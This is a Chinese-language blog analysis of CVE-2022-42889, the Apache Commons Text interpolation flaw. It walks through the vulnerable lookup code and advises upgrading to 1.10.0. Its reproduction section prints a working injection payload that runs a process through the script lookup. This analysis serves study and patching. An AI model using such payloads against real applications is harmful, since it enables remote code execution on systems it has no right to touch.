



# Apache Commons Text 远程代码执行漏洞(CVE-2022-42889)分析 - admin-神风 - 博客园

> 原文：[`www.cnblogs.com/wh4am1/p/16795499.html`](https://www.cnblogs.com/wh4am1/p/16795499.html)

### 漏洞介绍

根据 apache 官方给出的说明介绍到 Apache Commons Text 执行变量插值，允许动态评估和扩展属性的一款工具包，插值的标准格式是"${prefix:name}"，其中"prefix"是用于定位 org.apache.commons.text.lookup 类，执行插值的是 StringLookup 接口，接口中定义了 lookup 方法。在 1.5 到 1.9 的版本中，默认的 Lookup 实例集包括可以导致任意代码执行的表达式，如 javax.script、dns、url 等加载方式。

### 影响范围

1.5 <= Apache Commons Text <= 1.9

### 组件使用介绍

Apache Commons Text 组件通常在开发过程中用于占位符和动态获取属性的字符串编辑工具包，这里我搞了个 Demo 来简单介绍下使用方法：

```
import org.apache.commons.text.StringSubstitutor; class Demo{ public static void main(String[] args){
        String resolvedString = StringSubstitutor
                 .replaceSystemProperties("You are running with java.version = ${java.version} and os.name = ${os.name}.");

        System.out.println(resolvedString); final StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
        interpolator.setEnableSubstitutionInVariables(true); // Allows for nested $'s.
        final String text = interpolator.replace("Base64 Decoder:${base64Decoder:SGVsbG9Xb3JsZCE=}\n"
            + "Date:                  ${date:yyyy-MM-dd}\n" + "DNS:                   ${dns:address|apache.org}\n"
            + "Environment Variable:  ${env:USERNAME}\n"
            + "Script:                ${script:javascript:3 + 4}\n" + "System Property:       ${sys:user.dir}\n");
        System.out.println(text);
    }
}
```



因此该组件常用于数据库查询前的语句替换，或者页面输出的时候替换。

### 漏洞复现

```
import org.apache.commons.text.StringSubstitutor; class Demo{ public static void main(String[] args){
        StringSubstitutor stringSubstitutorInterpolator = StringSubstitutor.createInterpolator();
        String payload = "${script:js:new java.lang.ProcessBuilder(\"calc\").start()}";
        stringSubstitutorInterpolator.replace(payload);
    }
}
```



### 代码分析

先从 StringSubstitutor.replace 方法中跟入

```
public String replace(final String source) { if (source == null) { return null;
    } final TextStringBuilder buf = new TextStringBuilder(source); if (!substitute(buf, 0, source.length())) { return source;
    } return buf.toString();
}
```

调用了 substitute 解析传入的字符串


方法中解析了头部和尾部的${}，把其中的值取出来进一步解析

```
protected String resolveVariable(final String variableName, final TextStringBuilder buf, final int startPos, final int endPos) { final StringLookup resolver = getStringLookup(); if (resolver == null) { return null;
    } return resolver.lookup(variableName);
}
```

这里获取的 StringLookup 就是之前使用 StringSubstitutor.createInterpolator()创建实例化对象的地方

```
public static StringSubstitutor createInterpolator() { return new StringSubstitutor(StringLookupFactory.INSTANCE.interpolatorStringLookup());
}
```

并在构造方法中调用了 this.setVariableResolver(variableResolver)设置 VariableResolver 为 InterpolatorStringLookup 类，之后继续跟入 InterpolatorStringLookup 的 lookup 方法中。

```
@Override public String lookup(String var) {        //var="script:js:new java.lang.ProcessBuilder("calc").start()"
    if (var == null) { return null;
    } final int prefixPos = var.indexOf(PREFIX_SEPARATOR); if (prefixPos >= 0) { final String prefix = toKey(var.substring(0, prefixPos)); final String name = var.substring(prefixPos + 1); final StringLookup lookup = stringLookupMap.get(prefix);
        String value = null; if (lookup != null) {
            value = lookup.lookup(name);
        } if (value != null) { return value;
        }
        var = var.substring(prefixPos + 1);
    } if (defaultStringLookup != null) { return defaultStringLookup.lookup(var);
    } return null;
}
```

方法截取了":"前面的 script 关键词，并以此为索引获取对应的 StringLookup 对象


可以看到系统支持的类型有 18 种操作方式

并在后续调用了 ScriptStringLookup.lookup 方法

```
@Override public String lookup(final String key) { if (key == null) { return null;
    } final String[] keys = key.split(SPLIT_STR, 2); final int keyLen = keys.length; if (keyLen != 2) { throw IllegalArgumentExceptions.format("Bad script key format [%s]; expected format is EngineName:Script.",
                                               key);
    } final String engineName = keys[0]; final String script = keys[1]; try { final ScriptEngine scriptEngine = new ScriptEngineManager().getEngineByName(engineName); if (scriptEngine == null) { throw new IllegalArgumentException("No script engine named " + engineName);
        } return Objects.toString(scriptEngine.eval(script), null);
    } catch (final Exception e) { throw IllegalArgumentExceptions.format(e, "Error in script engine [%s] evaluating script [%s].", engineName,
                                               script);
    }
}
```

之后的代码就是获取 js 脚本引擎，并通过 ScriptEngine.eval 的方法执行


关于这个引擎的使用和介绍可以看这篇文章：[`www.qieseo.com/329754.html`](https://www.qieseo.com/329754.html)

Nashorn 扩展可以使 JVM 在运行时动态调用 JavaScript 脚本的能力，大大提升了开发时的灵活机动性。



### 修复建议

升级版本到 Apache Commons Text 1.10.0 版本。


可以看到在 1.10.0 版本中是删掉了 script 的功能的，但是还是存在有 xml 和 file 等功能类可以深入研究下。

### Reference

[1].[`lists.apache.org/thread/n2bd4vdsgkqh2tm14l1wyc3jyol7s1om`](https://lists.apache.org/thread/n2bd4vdsgkqh2tm14l1wyc3jyol7s1om)

[2].[`github.com/apache/commons-text/commit/b9b40b903e2d1f9935039803c9852439576780ea`](https://github.com/apache/commons-text/commit/b9b40b903e2d1f9935039803c9852439576780ea)

[3].[`commons.apache.org/proper/commons-text/javadocs/api-release/org/apache/commons/text/StringSubstitutor.html`](https://commons.apache.org/proper/commons-text/javadocs/api-release/org/apache/commons/text/StringSubstitutor.html)

[4].[`www.qieseo.com/329754.html`](https://www.qieseo.com/329754.html)

[5].[`github.com/naumanshah03/apache-commons-text-rce/blob/5ea6611e6d74da3274bebca1d64fd5c2de01f09a/src/main/java/org/nauman/Main.java`](https://github.com/naumanshah03/apache-commons-text-rce/blob/5ea6611e6d74da3274bebca1d64fd5c2de01f09a/src/main/java/org/nauman/Main.java)